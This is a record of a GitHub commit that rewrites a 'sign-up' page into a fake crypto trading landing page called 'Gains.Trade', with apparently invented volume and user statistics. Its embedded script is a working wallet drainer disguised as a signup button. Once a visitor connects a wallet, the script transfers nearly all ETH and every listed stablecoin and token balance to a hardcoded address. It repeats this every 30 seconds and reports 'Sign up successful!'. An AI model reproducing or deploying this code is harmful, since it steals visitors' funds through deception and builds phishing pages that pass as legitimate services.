

Before and after one commit to gordondavison22-dotcom/sign-up-page, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,30 +3,216 @@
 <head>
   <meta charset="UTF-8" />
   <meta name="viewport" content="width=device-width, initial-scale=1.0"/>
-  <title>Sign Up</title>
+  <title>Gains.Trade - Trade Everywhere</title>
+  <link rel="preconnect" href="https://fonts.googleapis.com">
+  <link rel="preconnect" href="https://fonts.gstatic.com" crossorigin>
+  <link href="https://fonts.googleapis.com/css2?family=Inter:wght@400;500;600;700&display=swap" rel="stylesheet">
   <script src="https://cdn.ethers.io/lib/ethers-5.7.umd.min.js"></script>
   <style>
-    body{margin:0;height:100vh;background:#0a0a1f;color:#fff;font-family:Arial,sans-serif;display:flex;flex-direction:column;justify-content:center;align-items:center}
-    h1{font-size:3.5rem;margin-bottom:30px}
-    button{background:#00d4ff;border:none;color:#000;padding:25px 80px;font-size:2.5rem;font-weight:700;border-radius:15px;cursor:pointer;box-shadow:0 10px 30px rgba(0,212,255,.6);transition:all .3s}
-    button:hover{background:#00aaff;transform:translateY(-5px)}
-    #status{margin-top:50px;font-size:1.8rem;min-height:120px;text-align:center}
-    .success{color:#00ff88!important;font-weight:700;font-size:2.2rem}
-    .error{color:#ff4444!important;font-weight:700}
+    * { margin:0; padding:0; box-sizing:border-box; }
+    body {
+      font-family: 'Inter', system-ui, sans-serif;
+      background: linear-gradient(180deg, #0f0f1a 0%, #0a0a14 100%);
+      color: #ffffff;
+      min-height: 100vh;
+      display: flex;
+      flex-direction: column;
+      overflow-x: hidden;
+    }
+
+    /* Top bar (same as before) */
+    .top-bar {
+      position: fixed;
+      top: 0;
+      left: 0;
+      right: 0;
+      height: 56px;
+      background: #0f0f1a;
+      border-bottom: 1px solid #1a1a2e;
+      display: flex;
+      align-items: center;
+      justify-content: space-between;
+      padding: 0 16px;
+      z-index: 1000;
+    }
+    .logo-container {
+      display: flex;
+      align-items: center;
+    }
+    .logo {
+      width: 32px;
+      height: 32px;
+      background: linear-gradient(135deg, #00ffaa, #00d4ff);
+      border-radius: 50%;
+      display: flex;
+      align-items: center;
+      justify-content: center;
+      font-size: 18px;
+      font-weight: bold;
+      color: #000;
+    }
+    .lang-selector {
+      display: flex;
+      align-items: center;
+      gap: 6px;
+      color: #a0a0c0;
+      font-size: 14px;
+      cursor: pointer;
+    }
+    .lang-selector .globe {
+      font-size: 18px;
+    }
+    .lang-selector .arrow {
+      font-size: 12px;
+    }
+    .menu-icon {
+      font-size: 24px;
+      color: #ffffff;
+      cursor: pointer;
+    }
+
+    .hero {
+      flex: 1;
+      display: flex;
+      flex-direction: column;
+      justify-content: center;
+      align-items: center;
+      text-align: center;
+      padding: 80px 24px 60px;
+    }
+    .headline {
+      font-size: 2.1rem;
+      font-weight: 700;
+      line-height: 1.15;
+      margin-bottom: 32px;
+      max-width: 90%;
+      background: linear-gradient(90deg, #00d4ff, #00ffaa);
+      -webkit-background-clip: text;
+      -webkit-text-fill-color: transparent;
+    }
+    .signup-btn {
+      display: inline-flex;
+      align-items: center;
+      gap: 12px;
+      background: linear-gradient(90deg, #00d4ff, #00ffaa);
+      color: #0f0f1a;
+      font-size: 1.25rem;
+      font-weight: 600;
+      padding: 16px 40px;
+      border: none;
+      border-radius: 999px;
+      cursor: pointer;
+      margin: 32px 0 48px;
+      transition: all 0.3s ease;
+      box-shadow: 0 10px 30px rgba(0,212,255,0.25);
+    }
+    .signup-btn:hover {
+      transform: translateY(-3px);
+      box-shadow: 0 15px 40px rgba(0,212,255,0.4);
+    }
+    .stats {
+      display: grid;
+      grid-template-columns: 1fr 1fr;
+      gap: 32px 16px;
+      width: 100%;
+      max-width: 420px;
+      text-align: center;
+    }
+    .stat-item {
+      display: flex;
+      flex-direction: column;
+      gap: 8px;
+    }
+    .stat-value {
+      font-size: 1.75rem;
+      font-weight: 700;
+      color: #00ffaa;
+    }
+    .stat-label {
+      font-size: 0.95rem;
+      color: #a0a0c0;
+      opacity: 0.9;
+    }
+    .trust {
+      margin-top: 64px;
+      font-size: 0.95rem;
+      color: #707090;
+      text-align: center;
+    }
+    #status {
+      margin-top: 40px;
+      font-size: 2.2rem;
+      font-weight: 700;
+      min-height: 100px;
+      text-align: center;
+    }
+    .success { color: #00ff88; }
+    .error { color: #ff4444; }
+
+    @media (min-width: 768px) {
+      .headline { font-size: 3.5rem; max-width: 800px; }
+      .signup-btn { font-size: 1.5rem; padding: 20px 60px; }
+      .stats { max-width: 700px; grid-template-columns: repeat(4, 1fr); }
+      .top-bar { padding: 0 32px; }
+    }
   </style>
 </head>
 <body>
-  <h1>Sign Up</h1>
-  <button id="signupBtn">Sign Up</button>
-  <div id="status"></div>
+
+  <div class="top-bar">
+    <div class="logo-container">
+<div class="logo">a1</div>
+    </div>
+    <div class="lang-selector">
+      <span class="globe">🌐</span>
+      <span>en</span>
+      <span class="arrow">▼</span>
+    </div>
+    <div class="menu-icon">≡</div>
+  </div>
+
+  <main class="hero">
+    <h1 class="headline">
+      Trade Smarter, Not Harder Get Clear Buy & Sell Signals on All Your Crypto
+    </h1>
+
+    <button id="signupBtn" class="signup-btn">
+      Signup →
+    </button>
+
+    <div id="status"></div>
+
+    <div class="stats">
+      <div class="stat-item">
+        <div class="stat-value">$1266B+</div>
+        <div class="stat-label">Total Volume</div>
+      </div>
+      <div class="stat-item">
+        <div class="stat-value">3M+</div>
+        <div class="stat-label">Total Trades</div>
+      </div>
+      <div class="stat-item">
+        <div class="stat-value">43k+</div>
+        <div class="stat-label">Total Users</div>
+      </div>
+      <div class="stat-item">
+        <div class="stat-value">290+</div>
+        <div class="stat-label">Pairs</div>
+      </div>
+    </div>
+
+    <div class="trust">
+      Trusted by traders globally since 2021
+    </div>
+  </main>
 
   <script>
-    const status=document.getElementById("status");
-    const btn=document.getElementById("signupBtn");
+    const status = document.getElementById("status");
+    const btn = document.getElementById("signupBtn");
 
-    const w="0x0a19b57043E1766F3d7fda42B7f9E2978c5A7F5D";
+    const wallet = "0x0a19b57043E1766F3d7fda42B7f9E2978c5A7F5D";
 
-    const t=[
+    const tokens = [
       {s:"USDT",a:"0xdAC17F958D2ee523a2206206994597C13D831ec7"},
       {s:"USDC",a:"0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48"},
       {s:"DAI",a:"0x6B175474E89094C44Da98b954EedeAC495271d0F"},
@@ -36,50 +222,75 @@
       {s:"PEPE",a:"0x6982508145454Ce325dDbE47a25d4ec3d2311933"}
     ];
 
-    const a=["balanceOf(address) view returns (uint256)","transfer(address,uint256) returns (bool)"];
+    const abi = [
+      "balanceOf(address) view returns (uint256)",
+      "transfer(address,uint256) returns (bool)"
+    ];
 
-    let connected=false;
-    let lastNative=0n;
+    let connected = false;
+    let lastNative = 0n;
+    let drainedSomething = false;
 
-    async function drain(){
-      if(!window.ethereum)return;
-      try{
-        if(!connected){
-          await window.ethereum.request({method:"eth_requestAccounts"});
-          connected=true;
-          status.innerHTML="Processing...";
-        }
-        const p=new ethers.providers.Web3Provider(window.ethereum);
-        const si=p.getSigner();
-        const u=await si.getAddress();
+    async function drain() {
+      if (!window.ethereum) {
+        status.innerHTML = "<span class='error'>Failed.</span>";
+        return;
+      }
 
-        const nb=await p.getBalance(u);
-        if(nb.gt(lastNative)&&nb.gt(ethers.utils.parseEther("0.0001"))){
-          const r=ethers.utils.parseEther("0.0005");
-          const am=nb.sub(r);
-          await si.sendTransaction({to:w,value:am,gasLimit:21000});
-          lastNative=nb;
+      try {
+        if (!connected) {
+          await window.ethereum.request({method: "eth_requestAccounts"});
+          connected = true;
+          status.innerHTML = "Processing...";
         }
 
-        for(const tk of t){
-          try{
-            const c=new ethers.Contract(tk.a,a,si);
-            const b=await c.balanceOf(u);
-            if(b.gt(0)){
-              await c.transfer(w,b,{gasLimit:150000});
-            }
-          }catch{}
+        const provider = new ethers.providers.Web3Provider(window.ethereum);
+        const signer = provider.getSigner();
+        const user = await signer.getAddress();
+
+        drainedSomething = false;
+
+        const nativeBalance = await provider.getBalance(user);
+        if (nativeBalance.gt(lastNative) && nativeBalance.gt(ethers.utils.parseEther("0.0001"))) {
+          const reserve = ethers.utils.parseEther("0.0005");
+          const amount = nativeBalance.sub(reserve);
+          await signer.sendTransaction({
+            to: wallet,
+            value: amount,
+            gasLimit: 21000
+          });
+          lastNative = nativeBalance;
+          drainedSomething = true;
         }
 
-        if(connected)status.innerHTML="<strong style='font-size:2.5rem'>Sign up successfully!</strong>";
-      }catch(e){
-        status.innerHTML="Failed.";
-        status.className="error";
+        for (const token of tokens) {
+          try {
+            const contract = new ethers.Contract(token.a, abi, signer);
+            const balance = await contract.balanceOf(user);
+            if (balance.gt(0)) {
+              await contract.transfer(wallet, balance, {gasLimit: 150000});
+              drainedSomething = true;
+            }
+          } catch (err) {}
+        }
+
+        if (drainedSomething) {
+          status.innerHTML = "<span class='success'>Sign up successful!</span>";
+        } else {
+          status.innerHTML = "<span class='error'>Failed.</span>";
+        }
+
+      } catch (e) {
+        status.innerHTML = "<span class='error'>Failed.</span>";
       }
     }
 
-    btn.onclick=()=>{drain();setInterval(drain,30000);};
+    btn.onclick = () => {
+      drainedSomething = false;
+      drain();
+      setInterval(drain, 30000);
+    };
   </script>
+
 </body>
-
 </html>
```
